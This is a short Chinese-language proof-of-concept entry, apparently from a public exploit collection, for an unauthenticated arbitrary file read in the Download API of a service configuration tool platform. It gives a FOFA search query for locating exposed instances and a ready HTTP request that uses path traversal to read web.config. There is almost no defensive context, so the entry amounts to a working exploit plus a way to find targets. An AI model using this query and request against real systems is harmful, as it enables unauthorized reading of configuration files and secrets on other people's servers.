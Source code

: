 # 生命港湾服务配置工具平台Download任意文件读取漏洞

生命港湾服务配置工具平台 Download 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="css/markdown.css" && body="icon-512.png"
```

## poc

```javascript
GET /api/File/Download?file=../web.config HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```

![image-20241211213908431](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112139490.png)